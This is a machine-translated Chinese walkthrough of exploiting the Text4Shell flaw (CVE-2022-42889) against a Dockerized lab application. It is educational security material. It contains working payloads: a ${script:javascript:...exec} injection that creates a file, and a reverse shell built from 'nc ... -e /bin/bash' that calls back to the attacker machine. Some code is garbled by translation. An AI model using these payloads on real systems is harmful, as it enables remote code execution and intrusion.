# 利用“Text4Shell”漏洞(CVE-2022–42889)

> 原文：<https://infosecwriteups.com/text4shell-poc-cve-2022-42889-f6e9df41b3b7?source=collection_archive---------0----------------------->

**摘要** 这篇文章展示了攻击者如何利用 Text4Shell 漏洞(CVE-2022–42889)。为此，我们将使用 U. J. Karthik 的 PoC 应用程序 text4shell-poc.jar。

**免责声明** 本文仅用于信息和教育目的，并面向那些愿意并好奇了解安全性和渗透测试的人。内容不得用于非法目的。如果你准备好学习新的好东西，那么继续读下去。

**详情** 2022 年 10 月 13 日向 Apache 披露了 Text4shell 漏洞。Text4Shell 是一个影响 Java 产品的漏洞，这些产品使用 Apache Commons 文本库的某些功能，使得远程攻击者能够在服务器上执行任意代码。更多信息请参见[https://www . tarlogic . com/blog/CVE-2022-42889-critical-vulnerability-affects-Apache-commons-text/# CVE-2022-42889 _ Key _ Features](https://www.tarlogic.com/blog/cve-2022-42889-critical-vulnerability-affects-apache-commons-text/#CVE-2022-42889_Key_Features)。

易受攻击的应用程序具有以下特征:

-使用 Apache Commons 版本 1.5 到 1.9
-这个库用于 sting 操作

在这个 PoC 中，我们将使用一个 Dockerized 测试应用程序“text4shell-poc.jar”。这个测试应用程序是由来自德里[(https://github.com/karthikuj](https://github.com/karthikuj))的道德黑客/开发者 U J Karthik 创建的。

POC 由一台 Linux 机器(我们的受害者)和一台攻击者机器(Kali Linux 2022.3 版本)组成。

受害者(安装 text 4 shell-POC . jar)
—Ubuntu 20.04(x64)
—IP 地址:192.168.62.174

攻击者(用于反向外壳)
— Kali Linux
— IP 地址:192.168.62.161

接下来的部分包括:
-步骤 1–3:易受攻击的应用程序的安装要求
-步骤 4–8:安装易受攻击的应用程序
-步骤 9–13:在易受攻击的 web 应用程序上执行远程代码
-步骤 14–15 用攻击者机器设置反向外壳
-缓解
-信用

**易受攻击应用的安装要求**

为了让易受攻击的 Java 应用程序启动并运行，我们需要安装 OpenJDK、Maven 和 Docker。

1.在 192.168.62.174 上执行(受害机，Ubuntu Linux)。

安装 OpenJDK

```
sudo apt update && sudo apt install openjdk-11-jdk
```

2.在 192.168.62.174 上执行(受害机，Ubuntu Linux)。

我们已经安装了 docker。

哪个码头工人



如果您没有 docker:

```
sudo apt install docker.io containerd runc
```

3.在 192.168.62.174 上执行(受害机，Ubuntu Linux)。

在/opt 中安装 Maven

```
cd /tmp
wget [https://mirrors.estointernet.in/apache/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.tar.gz](https://mirrors.estointernet.in/apache/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.tar.gz)
tar -xvf apache-maven-3.6.3-bin.tar.gz
sudo mv apache-maven-3.6.3 /opt/
```



设置环境参数

```
M2_HOME='/opt/apache-maven-3.6.3'
PATH="$M2_HOME/bin:$PATH"
export PATH
```



**安装易受攻击的应用程序**

4.在 192.168.62.174 上执行(受害机，Ubuntu Linux)。

下载 PoC 应用程序

```
cd /tmp
git clone [https://github.com/karthikuj/cve-2022-42889-text4shell-docker.git](https://github.com/karthikuj/cve-2022-42889-text4shell-docker.git)
```



5.在 192.168.62.174 上执行(受害机，Ubuntu Linux)。

使用 maven 构建应用程序。

```
cd /tmp/cve-2022-42889-text4shell-docker/
mvn clean install
```



6.在 192.168.62.174 上执行(受害机，Ubuntu Linux)。

为易受攻击的应用程序构建 docker 容器。

```
docker build --tag=text4shell .
```



7.在 192.168.62.174 上执行(受害机，Ubuntu Linux)。

启动 docker 映像。

```
docker run -p 80:8080 text4shell
```



8.在 192.168.62.174 上执行(受害机，Ubuntu Linux)。

在受害机器上测试应用程序。

```
firefox [http://localhost/text4shell/attack?search=blablabla](http://localhost/text4shell/attack?search=blablabla)
```



**在易受攻击的 web 应用程序上执行远程代码**

现在，使用攻击者机器进行进一步的开发。

9.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

在我们的攻击者机器上测试应用程序。

```
firefox [http://192.168.62.174/text4shell/attack?search=blablabla](http://192.168.62.174/text4shell/attack?search=blablabla)
```



10.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

现在通过传递字符串“${prefix:name}”攻击远程 web 服务器。

[http://192 . 168 . 62 . 174/text 4 shell/attack？search = $ { script:JavaScript:Java . lang . runtime . get runtime()。exec'touch](http://192.168.62.174/text4shell/attack?search=${script:javascript:java.lang.Runtime.getRuntime().exec'touch) /tmp/foo')}

重要提示:上面的字符串包含:“exec。摸摸”。这是不正确的，一定是”。高管**(**‘摸’。由于 Medium.com 输入验证，不可能使用“.exec '(触摸)。手动添加缺少的“(”。

Url 对上面的字符串进行编码([https://www.urlencoder.org/](https://www.urlencoder.org/))。

```
[http://192.168.62.174/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.**exec%27**touch%20%2Ftmp%2Ffoo%27%29%7D](http://192.168.62.174/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%27%27touch%20%2Ftmp%2Ffoo%27%29%7D)
```

重要:上面的字符串包含:"。执行%27”。这是不正确的，一定是”。exec% **28** %27”。由于 Medium.com 输入验证，不可能使用“.exec% **28** %27”。手动添加缺少的“%28”..



这是正确的输出。



11.在 192.168.62.174 上执行(受害机，Ubuntu Linux)。

获取码头集装箱 id

```
docker container ls
```



集装箱编号:4bc32732e273

12.在 192.168.62.174 上执行(受害机，Ubuntu Linux)。

在 docker 容器中启动一个 bash shell。使用 docker exec -it <container_id>bash</container_id>

```
docker exec -it 4bc32732e273 bash
```



13.在 192.168.62.174 上执行(受害机，Ubuntu Linux)。

检查 RCE 是否成功。(您应该会看到在/tmp 目录中创建了一个名为 foo 的文件):

ls /tmp



我们有文件夹/tmp/foo！RCE 成功了。

我们有一个文件夹叫‘Foo’，RCE 很成功。

**用攻击者的机器设置一个反向外壳**

我们很幸运地在应用程序 docker 容器中找到了 netcat。我们可以使用本地 netcat 版本来设置一个反向 shell。

14.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

设置 netcat 监听器。

```
rlwrap nc -nlvp 443
```



15.在 192.168.62.161 上执行(攻击者机器，Kali Linux)。

构建有效载荷:

$ { script:JavaScript:Java . lang . runtime . get runtime()。' exec ' NC 192 . 168 . 62 . 161 443-e/bin/bash ')}

重要:上面的字符串包含:"。执行 nc。这是不正确的，一定是”。exec**(**‘NC’。由于 Medium.com 输入验证，不可能使用“.执行(“nc”)。手动添加缺少的“(”。

有效负载的 URL 编码

```
[http://192.168.62.174/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.**exec%27**nc%20192.168.62.161%20443%20-e%20%2Fbin%2Fbash%27%29%7D](http://192.168.62.174/text4shell/attack?search=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%27%27nc%20192.168.62.161%20443%20-e%20%2Fbin%2Fbash%27%29%7D)
```

重要:上面的字符串包含:"。执行%27”。这是不正确的，一定是”。执行% **28** %27”。由于 Medium.com 输入验证，不可能使用“.执行% **28** %27”。手动添加缺少的“%28”



这是正确的输出。


导航到 URL 后的结果。

现在检查我们的卡利反向监听器。



从容器中取出外壳

**缓解**

Apache 发布了一个新版本的 Commons Text Library 版本的补丁。安装这一新版本可以缓解该漏洞。

**学分**

特别感谢 U. J. Karthik 的这一 PoC 应用([https://github.com/karthiku](https://github.com/karthikuj))
感谢那些发现这一漏洞并首先向 Apache 披露的研究人员。

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！